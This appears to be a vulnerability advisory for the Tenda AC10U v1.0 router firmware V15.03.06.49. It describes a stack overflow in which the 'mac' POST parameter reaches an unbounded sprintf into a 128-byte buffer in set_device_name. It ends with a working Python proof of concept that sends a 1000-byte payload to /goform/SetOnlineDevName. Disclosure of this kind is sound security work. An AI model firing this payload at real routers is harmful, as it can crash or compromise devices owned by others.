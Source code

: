 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 has a stack overflow vulnerability located in the `formSetDeviceName` function. This function accepts the `mac` parameter from a POST request by `dev_id` variable and passes it to the `set_device_name` function. 

![image-20240307202242332](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202242332.png)

Within `set_device_name`, the array `mib_name` is fixed at 128 bytes. However, since the user has control over the input of `mac`, the statement `sprintf(mib_name, "client.devicename%s", mac_addr);` leads to a buffer overflow. The user-supplied `mac` can exceed the capacity of the `mib_name` array, thus triggering this security vulnerability.

![image-20240313150525362](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150525362.png)

![image-20240313150320528](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150320528.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"mac": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240307202532447](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202532447.png)
